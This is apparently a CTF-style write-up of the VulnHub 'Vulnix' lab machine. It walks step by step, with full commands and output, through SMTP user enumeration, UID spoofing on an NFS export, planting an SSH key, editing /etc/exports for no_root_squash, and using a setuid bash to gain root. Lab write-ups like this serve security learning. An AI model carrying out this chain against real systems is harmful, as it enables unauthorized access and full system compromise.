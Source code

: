 ﻿### Vulnix Writeup
Today it's the Vulnix machine by Rebootuser which you can find hosted at https://www.vulnhub.com/entry/hacklab-vulnix,48/

We start off with the usual nmap scan and get a few random services and no web server on this one.
```
nmap -v -sV -Pn -n 192.168.147.158 
```

```
PORT     STATE SERVICE  VERSION                    
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)                    
25/tcp   open  smtp     Postfix smtpd                                                                 
79/tcp   open  finger   Linux fingerd                                                                 
110/tcp  open  pop3     Dovecot pop3d                                                                 
111/tcp  open  rpcbind  2-4 (RPC #100000)          
143/tcp  open  imap     Dovecot imapd                                                                 
512/tcp  open  exec     netkit-rsh rexecd          
513/tcp  open  login?                              
514/tcp  open  shell    Netkit rshd                
993/tcp  open  ssl/imap Dovecot imapd                                                                 
995/tcp  open  ssl/pop3 Dovecot pop3d                                                                 
2049/tcp open  nfs_acl  2-3 (RPC #100227)  
```
Some interesting things here, first off the nfs running on 2049 shows us a possible user named vulnix.
```
root@sushi:~# showmount -e 192.168.147.158
Export list for 192.168.147.158:
/home/vulnix *
```
So we check it on the SMTP and yes that is a valid user.
```
root@sushi:~# nc -nv 192.168.147.158 25
(UNKNOWN) [192.168.147.158] 25 (smtp) open

220 vulnix ESMTP Postfix (Ubuntu)
500 5.5.2 Error: bad syntax
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY crappy
550 5.1.1 <crappy>: Recipient address rejected: User unknown in local recipient table
^C
```
What is in Vulnix's home folder? We try mounting it and if we force it to use nfs version 3 or lower we can see the UID and GID for the owner is 2008 which we will need in a second.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 20 20:26 jail
drwxr-xr-x 2 root root 4096 Dec 20 20:27 opt
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 vulnix
root@sushi:/mnt# cd vulnix
bash: cd: vulnix: Permission denied
```
Awesome we can't actually access the folder, but I'm assuming if we have a user named vulnix with the same UID then it won't be a problem.
```
root@sushi:/mnt# useradd -u 2008 vulnix
root@sushi:/mnt# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd vulnix
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 5 root   root   4.0K Mar 18 20:24 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```
Nothing really in there, lets create some ssh keys and add the public key to the vulnix users authorized_keys.
```
root@sushi:/# ssh-keygen                           
Generating public/private rsa key pair.            
Enter file in which to save the key (/root/.ssh/id_rsa):                                              
Enter passphrase (empty for no passphrase):        
Enter same passphrase again:                       
Your identification has been saved in /root/.ssh/id_rsa.                                              
Your public key has been saved in /root/.ssh/id_rsa.pub.                                              
The key fingerprint is:                            
SHA256:SsY11VtkZekosDWAc+sMetO6J5GLsnWAkQgdNxaTRAk root@sushi                                         
The key's randomart image is:                      
+---[RSA 2048]----+                                
|..E=O+  ..o. .o.+|                                
|. oo+o o + o...o |                                
| . o    = = .oo  |                                
|    o. o + ... . |                                
|   . .= S   .    |                                
|     +.* +       |                                
|     .+.=        |                                
|   ....+ .       |                                
|   .o  .+        |                                
+----[SHA256]-----+                                
root@sushi:~# cd /root/.ssh                              
root@sushi:~/.ssh# ls                              
id_rsa  id_rsa.pub  known_hosts                    
root@sushi:~/.ssh# su vulnix                       
$ cd /mnt/vulnix                                   
$ mkdir .ssh                                       
$ cd .ssh                                          
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtV4eYiSqrw0sfD2Plm+AFfS99c5BsN4Xc67xWiIcN9gqxk8V/x3AGEUwLNNuAPAu/+inDQkv5HdKJwL56cgKKzDpeNtVaMwd8z3Xx1mHercAeIjyyYdl5HHxDgId23QIfgGJByFTLM77tRuJCiCPG/2EaCaAaykaIiobKorI2ujc61Z3Guzja/DXzSzmnGzeG/zSopdkRuUHu1ywQqj2D8GoJob4SL67juspotBA2DBX37nPpOvvy0drqK0z6UlyUj+ChZh8c15zOftJJuD4pImXKKX5T/pxprockcpCyUAQNw2Q+Ug5KgMo6g9WvwNAKXMOgDWDT5DKuAqjgmm1/ root@sushi > authorized_keys                                             
$                                                  
```
And then we can ssh onto the box with the vulnix account nice.
```
root@sushi:~/.ssh# ssh vulnix@192.168.147.158      
The authenticity of host '192.168.147.158 (192.168.147.158)' can't be established.                    
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.                          
Are you sure you want to continue connecting (yes/no)? yes                                            
Warning: Permanently added '192.168.147.158' (ECDSA) to the list of known hosts.                      
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)                                   

 * Documentation:  https://help.ubuntu.com/        

  System information as of Sun Mar 18 17:35:22 GMT 2018                                               

  System load:  0.0              Processes:           89                                              
  Usage of /:   90.2% of 773MB   Users logged in:     0                                               
  Memory usage: 7%               IP address for eth0: 192.168.147.158                                 
  Swap usage:   0%                                 

  => / is using 90.2% of 773MB                     

  Graph this data and manage this system at https://landscape.canonical.com/                          


The programs included with the Ubuntu system are free software;                                       
the exact distribution terms for each program are described in the                                    
individual files in /usr/share/doc/*/copyright.    

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                  
applicable law.                                    

vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 athlon i386 GNU/Linux
```
So first off we check if this account can do anything with sudo, and we can run sudoedit on the exports file good deal.
```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
Looking at /etc/exports, we can disable the root_squashing for the vulnix home folder which will allow us to copy something like bash and give it setuid permissions. We could also add roots home folder to the /etc/exports with no_root_squash and echo in our ssh key to his authorized_keys and get root access that way.
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,no_root_squash)
```
So the next step really tripped me up as I'm just not used to doing this for these vm's, but to get the config change to take effect we have to actually reboot the machine. Remember to unmount the home folder also or it will take forever. When it's back up, we mount the home directory again and copy over /bin/bash.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# cd vulnix
root@sushi:/mnt/vulnix# cp /bin/bash .
root@sushi:/mnt/vulnix# chmod 4777 bash
root@sushi:/mnt/vulnix# ls -lah                    
total 1.3M                                         
drwxr-x--- 4 vulnix vulnix 4.0K Mar 18 14:16 .     
drwxr-xr-x 5 root   root   4.0K Mar 18 21:09 ..    
-rwsrwxrwx 1 root   root   1.3M Mar 18 14:16 bash  
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout                       
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc                            
drwx------ 2 vulnix vulnix 4.0K Mar 18 13:35 .cache
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile                           
drwxr-xr-x 2 vulnix vulnix 4.0K Mar 18 13:34 .ssh  
```
Then back in our ssh session as the vulnix user, we just run bash in the home folder with the -p flag to preserve file permissions.
```
vulnix@vulnix:~$ id                                
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)                                                 
vulnix@vulnix:~$ ./bash -p                         
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# id                                       
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)                            
bash-4.4# cd /root                                 
bash-4.4# ls                                       
trophy.txt                                         
bash-4.4# cat trophy.txt                           
cc614640424f5bd60ce5d5264899c3be                   
```
That was pretty fun and difficult, having to reboot the machine was different and the rest of it was interesting learning a bit about and using nfs for the first time in awhile.  As always thanks to VulnHub and the author Rebootuser for all the hard work.


